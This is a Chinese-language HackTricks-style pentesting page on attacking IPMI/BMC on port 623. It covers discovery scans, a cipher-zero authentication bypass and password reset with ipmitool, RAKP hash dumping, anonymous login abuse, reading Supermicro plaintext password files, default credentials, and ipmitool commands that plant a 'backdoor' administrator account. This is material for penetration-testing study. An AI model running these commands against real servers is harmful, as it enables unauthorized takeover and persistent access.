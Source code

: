 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

通过 8kSec 学院深化您在 **移动安全** 方面的专业知识。通过我们的自学课程掌握 iOS 和 Android 安全并获得认证：

{% embed url="https://academy.8ksec.io/" %}


## 基本信息

### **IPMI 概述**

**[智能平台管理接口 (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** 提供了一种标准化的方法，用于远程管理和监控计算机系统，独立于操作系统或电源状态。该技术允许系统管理员远程管理系统，即使在系统关闭或无响应时，尤其适用于：

- 预操作系统启动配置
- 关机管理
- 从系统故障中恢复

IPMI 能够监控温度、电压、风扇速度和电源，同时提供库存信息、查看硬件日志，并通过 SNMP 发送警报。其操作所需的基本条件是电源和局域网连接。

自 1998 年由英特尔推出以来，IPMI 得到了众多厂商的支持，增强了远程管理能力，尤其是 2.0 版本对串行通过 LAN 的支持。关键组件包括：

- **主板管理控制器 (BMC)：** IPMI 操作的主要微控制器。
- **通信总线和接口：** 用于内部和外部通信，包括 ICMB、IPMB 和各种本地及网络连接接口。
- **IPMI 内存：** 用于存储日志和数据。

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**默认端口**：623/UDP/TCP（通常在 UDP 上，但也可能在 TCP 上运行）

## 枚举

### 发现
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
您可以**识别**版本使用：
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI 漏洞

在 IPMI 2.0 的领域中，Dan Farmer 发现了一个重大的安全缺陷，通过 **cipher type 0** 暴露了一个漏洞。这个漏洞在 [Dan Farmer 的研究](http://fish2.com/ipmi/cipherzero.html) 中有详细记录，允许在目标有效用户的情况下，使用任何密码进行未经授权的访问。这个弱点在 HP、Dell 和 Supermicro 等制造商的各种 BMC 中被发现，表明所有 IPMI 2.0 实现中存在广泛的问题。

### **通过 Cipher 0 绕过 IPMI 认证**

要检测这个缺陷，可以使用以下 Metasploit 辅助扫描器：
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
利用这个漏洞可以使用 `ipmitool` 来实现，如下所示，允许列出和修改用户密码：
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP 认证远程密码哈希检索**

此漏洞允许检索任何现有用户名的加盐哈希密码（MD5 和 SHA1）。要测试此漏洞，Metasploit 提供了一个模块：
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI 匿名认证**

许多 BMC 的默认配置允许“匿名”访问，其特征是空用户名和密码字符串。此配置可以被利用来重置使用 `ipmitool` 的命名用户帐户的密码：
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI 明文密码**

IPMI 2.0 中的一个关键设计选择要求在 BMC 中存储明文密码以进行身份验证。Supermicro 将这些密码存储在 `/nv/PSBlock` 或 `/nv/PSStore` 等位置引发了重大安全隐患：
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP 漏洞**

Supermicro 在其 IPMI 固件中包含的 UPnP SSDP 监听器，特别是在 UDP 端口 1900 上，引入了严重的安全风险。Intel SDK for UPnP Devices 版本 1.3.1 中的漏洞，如 [Rapid7 的披露](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) 所述，允许对 BMC 进行根访问：
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP 在制造过程中随机化其** **集成灯控 (iLO)** **产品的默认密码**。这一做法与其他制造商形成对比，后者往往使用**静态默认凭据**。以下是各种产品的默认用户名和密码的总结：

- **HP 集成灯控 (iLO)** 使用**工厂随机化的 8 字符串**作为其默认密码，展示了更高的安全级别。
- 像**戴尔的 iDRAC、IBM 的 IMM**和**富士通的集成远程管理控制器**等产品使用易于猜测的密码，如“calvin”、“PASSW0RD”（带零）和“admin”。
- 同样，**Supermicro IPMI (2.0)、Oracle/Sun ILOM**和**华硕 iKVM BMC**也使用简单的默认凭据，其中“ADMIN”、“changeme”和“admin”作为它们的密码。

## Accessing the Host via BMC

对基板管理控制器 (BMC) 的管理访问打开了访问主机操作系统的各种途径。一种简单的方法是利用 BMC 的键盘、视频、鼠标 (KVM) 功能。这可以通过重启主机到根 shell（使用 `init=/bin/sh`）或从设置为救援磁盘的虚拟 CD-ROM 启动来完成。这些方法允许直接操作主机的磁盘，包括插入后门、数据提取或进行安全评估所需的任何操作。然而，这需要重启主机，这是一个显著的缺点。在不重启的情况下，访问正在运行的主机更为复杂，并且因主机的配置而异。如果主机的物理或串行控制台保持登录状态，可以通过 BMC 的 KVM 或串行通过 LAN (sol) 功能轻松接管，使用 `ipmitool`。探索共享硬件资源的利用，如 i2c 总线和超级 I/O 芯片，是一个需要进一步研究的领域。

## Introducing Backdoors into BMC from the Host

在攻陷一台配备 BMC 的主机后，**可以利用本地 BMC 接口插入后门用户帐户**，在服务器上创建持久存在。这一攻击需要在被攻陷的主机上存在**`ipmitool`**并激活 BMC 驱动程序支持。以下命令说明了如何通过主机的本地接口将新用户帐户注入 BMC，从而绕过身份验证的需要。这种技术适用于包括 Linux、Windows、BSD 甚至 DOS 在内的广泛操作系统。
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

通过8kSec Academy深化您在**移动安全**方面的专业知识。通过我们的自学课程掌握iOS和Android安全并获得认证：

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
学习和实践AWS黑客攻击：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客攻击：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或在**Twitter**上**关注**我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
